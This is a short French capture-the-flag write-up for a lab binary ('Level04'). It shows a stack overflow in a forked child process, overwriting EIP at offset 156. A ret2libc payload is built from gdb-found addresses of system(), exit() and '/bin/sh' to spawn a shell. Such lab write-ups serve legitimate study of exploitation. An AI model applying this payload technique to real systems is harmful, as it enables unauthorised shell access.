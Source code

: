 ## Level04

![image](https://user-images.githubusercontent.com/29956389/95228349-80916800-07ff-11eb-9dad-f6d64850fcc5.png)

Dans le code du binaire on observe un appel a `fork()`.

Le processus fils lit sur l'entrée standart. Essayons de le faire overflow:

![image](https://user-images.githubusercontent.com/29956389/95228737-feee0a00-07ff-11eb-98ef-9157a7ad463f.png)

On écrase l'eip a l'offset 156.

Essayons donc une attaque ret2libc:


```
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
```

```
(gdb) p exit
$3 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

Notre exploit est donc composé de :

`[ buffer permettant d'atteindre l'overflow ] [ Adresse system() ] [ Adresse exit() ] [ Adresse "/bin/sh" ]`

ou 

`[ 156 bytes ] [ 0xf7e6aed0 ] [ 0xf7e5eb70 ] [ 0xf7f897ec ]`

![image](https://user-images.githubusercontent.com/29956389/95229263-a703d300-0800-11eb-81ff-16582f063481.png)
